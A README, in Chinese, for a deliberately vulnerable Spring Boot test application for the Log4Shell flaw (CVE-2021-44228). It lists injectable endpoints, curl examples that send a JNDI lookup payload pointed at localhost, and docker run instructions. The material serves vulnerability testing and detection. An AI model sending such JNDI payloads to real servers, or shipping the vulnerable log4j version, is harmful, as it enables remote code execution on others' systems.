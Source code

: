 # Log4j 2 CVE-2021-44228 测试样本应用

基于 spring-boot-starter-log4j2:2.6.1 (log4j 2.14.1)

## 可用接口

| 接口 | 请求方法 | 参数 |
|-----|-----|-----|
| `vulnerable_request_get` | GET | v=payload |
| `vulnerable_request_post` | POST | v=payload |
| `vulnerable_request_header_ua` | GET / POST | Header `User-Agent` |

## 测试可用

* GET
```shell
$ curl 'http://127.0.0.1:8080/vulnerable_request_get?v=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%2Ffake%7D'
{"method":"vulnerable_request_get","payload":"${jndi:ldap://127.0.0.1/fake}"}
```

* POST
```shell
$ curl -X POST -F 'v=${jndi:ldap://127.0.0.1/fake}' 'http://127.0.0.1:8080/vulnerable_request_post'
{"method":"vulnerable_request_post","payload":"${jndi:ldap://127.0.0.1/fake}"}
```
* UserAgent
```shell
$ curl 'http://127.0.0.1:8085/vulnerable_request_header_ua' --user-agent '${jndi:ldap://127.0.0.1/fake}'
{"method":"vulnerable_request_header_ua","payload":"${jndi:ldap://127.0.0.1/fake}"}
```

## 快速启动
```shell
docker run -p 8080:8080 ghcr.io/zzzz0317/log4j2-vulnerable-spring-app
```

## 构建镜像
```shell
docker build -t log4j2-vulnerable-spring-app:latest .
docker run -p 8080:8080 log4j2-vulnerable-spring-app
```